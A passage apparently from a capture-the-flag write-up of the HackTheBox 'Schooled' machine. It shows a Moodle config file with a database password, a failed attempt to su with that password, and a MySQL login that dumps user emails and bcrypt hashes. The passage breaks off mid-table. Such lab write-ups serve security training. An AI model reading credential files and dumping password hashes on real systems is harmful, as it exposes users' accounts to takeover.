     $CFG->dbtype    = 'mysqli';
    $CFG->dblibrary = 'native';
    $CFG->dbhost    = 'localhost';
    $CFG->dbname    = 'moodle';
    $CFG->dbuser    = 'moodle';
    $CFG->dbpass    = 'PlaybookMaster2020';
    $CFG->prefix    = 'mdl_';
    $CFG->dboptions = array (
      'dbpersist' => 0,
      'dbport' => 3306,
      'dbsocket' => '',
      'dbcollation' => 'utf8_unicode_ci',
    );
    
    $CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
    $CFG->dataroot  = '/usr/local/www/apache24/moodledata';
    $CFG->admin     = 'admin';
    
    $CFG->directorypermissions = 0777;
    
    require_once(__DIR__ . '/lib/setup.php');
    
    // There is no php closing tag in this file,
    // it is intentional because it prevents trailing whitespace problems!
    

I tried to `su` to both users with the password “PlaybookMaster2020” without
success.

#### Database

`mysql` is not in the path but installed. I’ll connect using the creds from
above:

    
    
    [www@Schooled /]$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 moodle
    mysql: [Warning] Using a password on the command line interface can be insecure.
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 1025
    Server version: 8.0.23 Source distribution
    
    Copyright (c) 2000, 2021, Oracle and/or its affiliates.
    
    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    moodle@localhost [moodle]>
    

Moodle creates a lot of tables, but I’m interesting in any that might contain
passwords, like `mdl_user`. The table has a ton of columns, but I really just
want username, email, and password:

    
    
    moodle@localhost [moodle]> select username, email, password from mdl_user;
    +-------------------+----------------------------------------+--------------------------------------------------------------+
    | username          | email                                  | password                                                     |
    +-------------------+----------------------------------------+--------------------------------------------------------------+
    | guest             | root@localhost                         | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 |
    | admin             | jamie@staff.schooled.htb               | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |
    | bell_oliver89     | bell_oliver89@student.schooled.htb     | $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK |
    | orchid_sheila89   | orchid_sheila89@student.schooled.htb   | $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC |